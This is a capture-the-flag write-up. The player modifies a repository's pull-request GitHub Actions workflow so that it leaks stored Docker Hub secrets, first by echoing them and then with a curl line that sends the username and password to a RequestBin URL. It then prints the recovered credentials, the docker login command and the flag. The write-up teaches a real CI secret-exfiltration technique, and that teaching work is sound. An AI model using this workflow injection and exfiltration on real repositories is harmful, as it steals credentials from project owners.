

GitHub [50 pts]
=================

Solved by: Dayton Hasty ([dayt0n](https://github.com/dayt0n))
-------------------------------------------------------------

Challenge Description
---------------------

```
We've heard Shou, except from his server, also loves Docker containers. You have gained Shou's trust and asked to help him further develop his project. We task you to spy on him and retrieve his beloved container. Get yourself added to his GitHub repo here (http://github.ctf.so/)

Note: Container is of name "flag"

Hint: https://docs.docker.com/docker-hub/access-tokens/
```

Tags: `Troll`

Setup
-----

Upon clicking the http://github.ctf.so/ link, we were presented with a page asking for our GitHub username to be added to a project as a contributor. I entered my username, [dayt0n](https://github.com/dayt0n) and then received an email asking if I wanted to become a collaborator:


Once the invitation was accepted, we were granted access to the repo:


Solution
--------

The `README.md` file describes the repo as "A really welcoming repo that greets you when you do pull request."

[GitHub Actions](https://docs.github.com/en/actions) are a tool within GitHub to automate certain processes when a condition is met. In this instance, it looks like the repo runs an Action each time a pull request is done. 

The Actions for this repo can be viewed in the `.github/workflows` directory. Two files appear in this directory, `pr.yml` and `docker.yml`.

`pr.yml` has the following contents:

```yaml
name: Say Hi

on: [pull_request]

jobs:
  build:

    runs-on: ubuntu-latest

    steps:
    - uses: actions/checkout@v2
    - name: Say Hi
      run: |
        echo "hi!!"
```

So it looks like this file is the one that runs on every pull request. The only command that is executed is the `echo` command that greets the user. 

[docker.yml](./production-a8abd579-b812-43e2-8d96-4299ad80033b/.github/workflows/docker.yml) has some more interesting data:

```yaml
name: Publish Docker
on: [release]
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@master
    - name: Publish to Registry
      uses: elgohr/Publish-Docker-Github-Action@master
      with:
        name: wectfchall/poop
        username: ${{ secrets.DOCKER_USERNAME }}
        password: ${{ secrets.DOCKER_PASSWORD }}
```

It looks like on every new release for the GitHub repo, the image is published to the official Docker registry [here](https://hub.docker.com/r/wectfchall/poop) using credentials stored in GitHub encrypted secrets.

GitHub encrypted secrets "allow you to store sensitive information in your organization, repository, or repository environments" (https://docs.github.com/en/actions/reference/encrypted-secrets). 

Knowing this, the plan of attack looks like we just need to leak the `${{ secrets.DOCKER_USERNAME }}` and `${{ secrets.DOCKER_PASSWORD }}` variables to the output of the Action. To do this, all that is needed is to fork the repo and modify the `echo "hi!!"` command in `pr.yml` using the following data:

```yaml
- uses: actions/checkout@v2
    - name: Say Hi
      run: |
        echo "${{ secrets.DOCKER_USERNAME }} : ${{ secrets.DOCKER_PASSWORD }}"
```

Now, all that is left is to make a commit to the forked repo and initiate a pull request to the original repo.

Then, we can just view the Actions console to see the...



So that didn't work out as planned. 

After taking a closer look at the [GitHub Encrypted Secrets documentation](https://docs.github.com/en/actions/reference/encrypted-secrets), a giant red warning became apparent: 


This explains why the output was censored. That is no issue though, since we can just exfiltrate the data using a `curl` request to a [RequestBin](https://requestbin.io/).

[pr.yml](production-a8abd579-b812-43e2-8d96-4299ad80033b/.github/workflows/pr.yml) job is changed to: 
```yaml
- uses: actions/checkout@v2
    - name: Say Hi
      run: |
        curl "https://requestbin.io/1jur7g91?username=${{ secrets.DOCKER_USERNAME }}&password=${{ secrets.DOCKER_PASSWORD }}"
```

After adding the changes to the previous pull request, the result of the `curl` command can be seen on the RequestBin:


Docker credentials:
  * username: `wectfchall`
  * password: `c3f6a063-4cff-442e-81d7-1febe6d94cea`

To pull the `flag` container, we must first login as `wectfchall` within the docker command-line application using the following command:

```bash
$ docker login --username wectfchall --password c3f6a063-4cff-442e-81d7-1febe6d94cea
```

Finally, the `flag` container can be pulled and run using:

```bash
$ docker run -it wectfchall/flag
```


Flag: `we{a007761c-c4cb-47f4-9d6c-c194f3168302@G4YHub_Ac7i0n_3ucks}`